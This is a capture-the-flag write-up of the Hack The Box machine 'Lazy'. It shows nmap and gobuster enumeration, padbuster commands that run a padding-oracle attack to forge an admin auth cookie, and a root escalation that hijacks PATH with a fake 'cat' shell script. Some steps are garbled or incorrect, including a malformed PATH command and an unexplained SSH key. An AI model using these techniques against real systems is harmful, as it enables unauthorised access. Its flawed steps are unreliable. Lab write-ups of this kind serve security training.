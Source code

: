 ![logo](/logo.png)

# [LAZY- BOX]  
Hi folks, today I am going to solve an medium rated hack the box machine which was released on 03 May 2017 as the 14th machine on HTB,Lazy created by [trickster0](https://app.hackthebox.com/users/169).So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *Joomla
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/lazy 10.10.10.18
```

###### Output 

![](/Linux/Linux-Medium/Lazy/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/lazy 10.10.10.18                                     ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-18 06:52 EAT
Nmap scan report for 10.10.10.18
Host is up (0.31s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 e1:92:1b:48:f8:9b:63:96:d4:e5:7a:40:5f:a4:c8:33 (DSA)
|   2048 af:a0:0f:26:cd:1a:b5:1f:a7:ec:40:94:ef:3c:81:5f (RSA)
|   256 11:a3:2f:25:73:67:af:70:18:56:fe:a2:e3:54:81:e8 (ECDSA)
|_  256 96:81:9c:f4:b7:bc:1a:73:05:ea:ba:41:35:a4:66:b7 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: CompanyDev
|_http-server-header: Apache/2.4.7 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.49 seconds
```

looking at the results  we find out that there are 2 ports open and its a `Ubuntu`and its running an `Apache httpd 2.4.7`. 

port[22]-ssh
port[80]-http

when we naviagate to [http://10.10.10.18](http://10.10.10.18)  we find a page for a `decvompany`

![](/Linux/Linux-Medium/Lazy/Screenshots/defaultpage.png)

we find nothing of intreasting on the page so lets try enumerate directories with `gobuster`

```sh
gobuster dir -u http://10.10.10.18 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -k 
```

![](/Linux/Linux-Medium/Lazy/Screenshots/gobuster.png)

There are a few PHP files, and they all seem to be a part of the same application. The best place
to start appears to be the login and register pages, as the other files provide no useful
functionality or information when viewed.

I had registred an account so lets open burp and capture the request when loging in 

![](/Linux/Linux-Medium/Lazy/Screenshots/logiin.png)

we see that it sets a cookie in `auth:...` 

![](/Linux/Linux-Medium/Lazy/Screenshots/burpsuite.png)

so lets send this request to `sequencer` so that we can analyze if the cookie keeps changing or repeating the same cookies.The only cookie created by the server is the auth cookie, which appears as `auth=7%2FDQjMk33vAm4Mc4ifWeO3m5Bl3Lf5al`

![](/Linux/Linux-Medium/Lazy/Screenshots/sequencer.png)

After doing the sequencer we now go back to check if we have an Sql injection by using the admin to see it is a user in the system.

![](/Linux/Linux-Medium/Lazy/Screenshots/admin.png)

# Exploitation

so we know admin exists so lets try register `admin` again with some sql injection so that we can see if admin is logged in because of bad serialization.But first we can be able to do a `padbuster` 

```sh
padbuster http://10.10.10.18 7%2FDQjMk33vAm4Mc4ifWeO3m5Bl3Lf5al 8 -cookies auth=7%2FDQjMk33vAm4Mc4ifWeO3m5Bl3Lf5al -encoding 0 
```

![](/Linux/Linux-Medium/Lazy/Screenshots/padding.png)

Running a padding oracle attack against the target with padbuster reveals the target is indeed
vulnerable. The output reveals the username, which is stored client-side. This can be easily
exploited.

![](/Linux/Linux-Medium/Lazy/Screenshots/padd.png)

![](/Linux/Linux-Medium/Lazy/Screenshots/padbuster.png)


Knowing that a padding oracle attack can be used against this target, it is possible to encrypt
user supplied data with the same method. In this case, encrypting `user=admin` will produce a
valid` auth cookie`. 

```sh
padbuster http://10.10.10.18 7%2FDQjMk33vAm4Mc4ifWeO3m5Bl3Lf5al 8 -cookies auth=7%2FDQjMk33vAm4Mc4ifWeO3m5Bl3Lf5al -encoding 0 -plaintext user=admin
```

trying to register admin with `admin==` we are logged in as an admin

![](/Linux/Linux-Medium/Lazy/Screenshots/joomla.png)

we find out that that is the ssh key for `mitsos`  so let use it to login

![](Linux/Linux-Medium/Lazy/Screenshots/shell.png)

we can now find the user flag 

![](/Linux/Linux-Medium/Lazy/Screenshots/flag.png)

# Privillage Escalation

After gaining entry to the target via SSH (and grabbing the user flag at `/home/mitsos/user.txt`,
the next step is to observe the backup binary available in the user’s home directory. 

![](/Linux/Linux-Medium/Lazy/Screenshots/backup.png)

A quickglimpse shows that it has sticky bits set, which will run it as the root user. Running strings against the binary shows that it executes the command `cat /etc/shadow`

![](/Linux/Linux-Medium/Lazy/Screenshots/strings.png)

Because a full path to the cat binary is not specified, this specific command is vulnerable to
hijacking by modifying the PATH system variable. This can be achieved by setting the working
directory as the first option in `PATH`, with the command export `PATH=.:$PATH`

```sh
echo PATH= `pwd`:PATH
```

cat file is just a simple shell

```sh
#!/bin/sh

/bin/sh
```

![](Linux/Linux-Medium/Lazy/Screenshots/pwd.png)

and because we modified cat so we are to use less to get the root flag.

	-------------------------END successful attack @lesley----------------------